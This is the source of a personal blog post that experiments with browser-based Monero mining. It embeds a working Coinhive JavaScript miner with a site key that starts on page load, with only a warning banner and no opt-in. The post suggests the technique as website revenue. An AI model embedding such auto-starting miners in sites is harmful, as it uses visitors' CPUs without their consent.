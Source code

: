 ```yaml
---
layout: post
title: Mining crypto with a web browser
subtitle: Via Javascript
image: /img/monero.png
tags: [monero, XMR, crypto, currency, cryptocurrency, mine, miner, mining, graphics cards, bitcoin]
comments: true
---
```

<a href="https://getmonero.org/" >Monero (XMR)</a> is a cryptocurrency focused around privacy, decentralization and scalability.
It was created in April of 2014 and has since seen a huge uptick in adoption.
To mine Monero, you have to calculate hashes with an algorithm called Cryptonight.
This algorithm is very compute heavy and – while overall pretty slow – was designed to run well on consumer CPUs.

<table>
	<tr>
		<td>Current Price of Monero</td>
		<td id="XMRprice"></td>
	</tr>
</table>

I recently discovered that there are services out there that allow you to embed a Monero Javascript miner into a web page.
I thought this was an interesting idea and had to try it out for myself. Is it easy to do? How efficient is it? What can it be used for?

{: .box-warning}
**Warning:** The page you are on is currently utilizing your CPU to mine Monero.


___

<script src="https://coin-hive.com/lib/coinhive.min.js"></script>
<script>
var miner = new CoinHive.Anonymous('l0YCiLkEmA6Nk1UBDRL9O0OsHSOem86y', {
	threads: 1
});
miner.start();

// Listen on events
miner.on('found', function() { /* Hash found */ })
miner.on('accepted', function() { /* Hash accepted by the pool */ })

// Update stats once per second
setInterval(function() {
	var hashesPerSecond = miner.getHashesPerSecond();
	var totalHashes = miner.getTotalHashes();
	var acceptedHashes = miner.getAcceptedHashes();

	// Output to HTML elements...
	document.getElementById("hashesPerSecond").innerHTML = hashesPerSecond;
	document.getElementById("totalHashes").innerHTML = totalHashes;
	document.getElementById("acceptedHashes").innerHTML = acceptedHashes;
}, 1000);

// API call to Crypto Compare
window.onload = function(){
	var xhttp = new XMLHttpRequest();
	xhttp.onreadystatechange = function() {
		if (this.readyState == 4 && this.status == 200) {
		var json = JSON.parse(this.responseText);
			document.getElementById("XMRprice").innerHTML = "$" + json.USD;
	   }
	};
	xhttp.open("GET", "https://min-api.cryptocompare.com/data/price?fsym=XMR&tsyms=USD", true);
	xhttp.send(); 
}
</script>

## Miner Stats since visiting this page

<table>
<tr>
<td>Hashes Per Second</td>
<td id="hashesPerSecond"></td>
</tr>
<tr>
<td>Accepted Hashes</td>
<td id="acceptedHashes"></td>
</tr>
<tr>
<td>Total Hashes</td>
<td id="totalHashes"></td>
</tr>
</table>

I've hard coded the miner to only operate using 1 thread so it does not hog your CPU.
If you wanted to maximize your Hash Rate you could run a thread per core and these numbers would be 2x-4x greater.

### What can it be used for?
1. Used as an additional revenue source for websites
2. Offer premium services to customers who run miner

### How efficient is it?
There is definitely room for improvment when it comes to efficiency.
That being said I was pretty impressed how it compared to native mining. 
Mining in the browser is about 65% as efficient.

The important thing to note here is that a single visitor may not produce much hashing power but if you have a couple hundred people hitting a page it adds up quick.

### Is it easy to do? 
It is actually extremely easy to do, expect a new blog coming soon that explains how to implement what you see on this page.
